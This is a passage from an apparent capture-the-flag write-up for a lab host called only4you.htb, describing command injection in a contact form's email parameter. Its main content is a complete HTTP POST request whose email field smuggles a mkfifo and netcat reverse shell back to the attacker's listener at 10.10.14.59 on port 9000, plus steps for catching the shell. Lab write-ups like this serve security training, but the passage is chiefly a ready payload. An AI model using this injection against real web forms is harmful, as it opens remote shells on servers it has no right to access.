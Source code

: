 it is possible to **RCE** vulnerabillity, as long as we know the parameter. in this case we can send request with POST method with `email`,`subject`, and `message` as parameter. 

send the `/` request with `only4you.htb` domain into repeater, change the method from GET to POST. im try to make a request from server and get the response using `netcat`.

![](/assets/img/only4you/4.png)

`netcat` result, from here we can gaining access into system

![](/assets/img/only4you/5.png)

from no we can send a malicious request to webserver and catch with `netcat`.

```http
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 135

email=bunnys@only4you.htb|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.59+9000+>/tmp/f&subject=tester&message=tester
```
